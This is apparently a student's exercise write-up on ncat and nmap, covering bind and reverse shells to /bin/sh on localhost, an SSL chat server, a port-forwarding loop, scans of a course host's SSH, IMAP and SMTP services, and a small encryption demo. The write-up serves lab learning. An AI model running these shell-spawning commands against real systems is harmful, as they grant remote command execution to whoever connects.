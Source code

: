 ```yaml
---
title: Exercise 4
author: Abd El Rahaman Shehata

header-includes:
    - \usepackage{fvextra}
    - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,commandchars=\\\{\}}
---
```


# Exercise 4

## 1

### 1.1

-   Server

```sh
ncat -lp 8080 -e /bin/sh
```

-   Client

```sh
ncat localhost 8080
pwd
```

### 1.2

-   Server

```sh
ncat -lp 8080
pwd
```

-   Client

```sh
ncat localhost 8080 -e /bin/sh

```

### 1.3

Yes, but the `/bin/sh` has to be changed to `pw.exe` on Windows to be able to execute PowerShell commands

### 1.4

`-u, --udp Use UDP instead of default TCP`

Bind-shell works but reverse-shells don't

## 2

### Server

```sh
ncat --ssl --allow 127.0.0.1 --chat -o 'chat.log'  -lkp 4000

-l, --listen               'Bind and listen for incoming connections'
-p, --source-port port     'Specify source port to use'
-k, --keep-open            'Accept multiple connections in listen mode'
-o, --output <filename>    'Dump session data to a file'
--ssl                  'Connect or listen with SSL'
--allow                'Allow only given hosts to connect to Ncat'
--chat                 'Start a simple Ncat chat server'
```

### Client

```sh
ncat --ssl localhost 4000
```

## 3

```sh
while $(ncat -lp 8080 -c 'ncat localhost 80'); do
    true;
done
```

Is a proxy that forwards each request from port 8080 to port 80

### 4

Doesn't work

### 5

-   Which ports are used for SSH?
    The default port 22 and 8192

    ```sh
    nmap delta-xi.net -A | grep ssh

    22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    8192/tcp open ssh OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
    ```

-   What’s the RSA public key for SSH?

    ```sh
    nmap -script 'ssh-hostkey' delta-xi.net

    | ssh-hostkey:
    |   256 0ffa22a64fd47aa5928a7bd850abf757 (ECDSA)
    |_  256 0bd869e3131da13aac7851283bea6e67 (ED25519)
    ```

-   When does the IMAP certificate expire?

    ```sh
    nmap -p 993 -sC delta-xi.net

    _Not valid after:  2022-10-29T18:46:53
    ```

-   For which domain, other than delta-xi.net, does the host accept e-mails for?
    Every subdomain. (\*.delta-xi.net)

-   What’s the welcome message the SMTP server provides?

    ```sh
    ncat -C mail.delta-xi.net 587

    220 [ delta-xi.net ] Iniquity divine.
    Helo abou.shehata643@yahoo.de
    250 delta-xi.net
    ```

### 6

```sh
echo -n "hello world" | cargo run -- -key key.txt -enc

Encrypted: 0RqJwHYOzYMUJNBZ/IMqJA==
```

```sh
echo "0RqJwHYOzYMUJNBZ/IMqJA==" | cargo run -- -key key.txt -dec

Decrypted: hello world
```
